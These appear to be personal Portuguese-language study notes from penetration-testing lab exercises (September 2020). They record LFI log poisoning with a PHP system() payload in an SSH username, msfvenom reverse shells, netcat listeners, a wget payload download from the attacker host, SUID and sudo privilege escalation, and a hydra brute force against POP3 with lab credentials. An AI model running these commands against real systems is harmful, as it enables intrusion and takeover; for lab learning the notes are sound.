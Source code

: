 		*nc -lnvp 433
			python -c 'import pty;pty.spawn("/bin/sh")'
				find / -perm -u=s -file f 2>&-
					/usr/bin/find -exec  "/bin/bash" \;


#Dia 10			16/9/2020

*burp suite
	repeater	-> index.php?file=about.php
	/var/log/auth.log
		#ssh root@192.168.0.x vai aparecer no log
		#usaremos no lugar do usuario algum script php para ser executado no saida do log
			ssh '?php system($_GET[x]); ?>'@192.168.0.x

			file=/var/log/auth.log&x=ls
			#passa o comando ls como parametro de x

			encodar como html para comandos mais complexos
			 decoder
				ls -lh -> %6c%73%20%2d%6c%68
					 index.php?file=/var/log/auth.log&x=%6c%73%20%2d%6c%68

	*msfvenom -p cmd/unix/reverse_python lhost=192.168.0.x port=443 -f raw
	#saida em linha -> encodar no burp

	*nc -lnvp  443
		python -c 'import pty;pty.spawn("/bin/bash")'	

			*msfvenom -p cmd/unix/reverse_python lhost=192.168.0.x port=443 -f raw > shell_py
				transferir o shell_py para o alvo
					kali -> 	python -m SimpleHTTPServer 8080
					alvo -> wget http://192.168.0.x:8080/shell_py

	sudo /var/www/html/theEther.com/public_html/xxxlogauditorxxx.py
		/var/log/auth.log  | shell_py
		
		

#Dia 11 			17/9/2020

	*scan padrão
		porta 80
			inpecionar página/visualizar origem pagina -> script js -> terminal.js
				password criptografada url
					burp decoder
						InvincibleHack3r
		
	*scan -p-
		pop3 55007
			nc 192.168.0.x 55007
				USER boris
				PASS InvincibleHack3r
					senha errada, user existe
					
		*hydra -l (user) -P (senhas-wordlist) 192.168.0.x (-s (porta) sem o -s ele roda na porta padrão) pop3 (protocolo)
			password: secret1!
				nc 192.168.0.x 55007
				user boris
				pass secret1!
					